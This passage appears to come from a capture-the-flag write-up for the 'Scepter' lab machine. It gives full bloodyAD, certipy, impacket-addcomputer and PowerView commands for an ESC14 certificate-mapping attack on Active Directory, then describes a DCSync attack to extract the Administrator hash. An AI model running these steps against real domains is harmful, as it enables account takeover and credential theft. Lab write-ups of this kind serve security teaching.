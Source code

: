 3. Update `altSecurityIdentities`
    ```bash
    bloodyAD --host dc01.scepter.htb -d scepter.htb -u h.brown -k set object p.adams altSecurityIdentities -v 'X509:<I>DC=htb,DC=scepter,CN=scepter-DC01-CA<SR>02000000000096ea65c156eb94800200000062'
    ```
    ![](https://cdn-images-1.medium.com/max/1000/1*BAIOqDrBMgejmxayqWg8-Q.png)

4. Confirm the Change
    ```powershell
    Get-ADUser p.adams -Properties altSecurityIdentities | Select-Object Name, altSecurityIdentities
    ```
    ![](https://cdn-images-1.medium.com/max/1000/1*fPjoQzCYJf_eOhm3yJbusw.png)
5. Authenticate as p.adams using the certificate we used its data

    ```bash
    certipy auth -pfx d.baker.pfx -username p.adams -domain scepter.htb -dc-ip 10.10.11.65
    ```
    ![](https://cdn-images-1.medium.com/max/1000/1*tsePuIg5sMCAYQ2pR1TKSA.png)
    we again got NT hash and 

#### ESC14 Scenario A machine => user

Alternatively, create a machine account, request a machine certificate, and repeat the same technique.

1. Create a Machine Account
    + Using impacker
        ```bash
        impacket-addcomputer 'scepter.htb/a.carter:pa$$w0rd' -computer-name B4l3rI0n$ -computer-pass 'pa$$w0rd' -dc-ip 10.10.11.65
        ```
        ![](https://cdn-images-1.medium.com/max/1000/1*QEIPEm5q-Rk2jA9GMzlM1A.png)
    + Using Linux PowerView 'first time i try'
        ```bash
        powerview -d a.carter:'pa$$w0rd'@scepter.htb
        Add-DomainComputer -ComputerName B4l3rI0n -ComputerPass 'pa$$w0rd' 
        ```
        ![](https://cdn-images-1.medium.com/max/1000/1*flSLN7jD2VsMal7SD8oTfQ.png)
2. Request a certificate
    
    ```bash
    certipy req -u 'B4l3rI0n$' -p 'pa$$w0rd' -ca scepter-DC01-CA -template Machine -dc-ip 10.10.11.65
    ```
    ![](https://cdn-images-1.medium.com/max/1000/1*4aIydTZ_wRnqa8X8TDpQRA.png)
The following steps are identical to user ➔ user:
Extract serial & issuer, build payload, update altSecurityIdentities, and authenticate.
## DCSync

With access to p.adams's NT hash and ticket, and as a Domain Admin, we have the necessary privileges to perform a DCSync attack. This allows us to impersonate a Domain Controller and request the password hashes of other users directly from the domain, including the Administrator account. This technique abuses the GetNCChanges privilege granted to Domain Admins over the domain naming context.
We can use Impacket's secretsdump.py tool to perform the DCSync and extract the NTLM hash of the Administrator account.
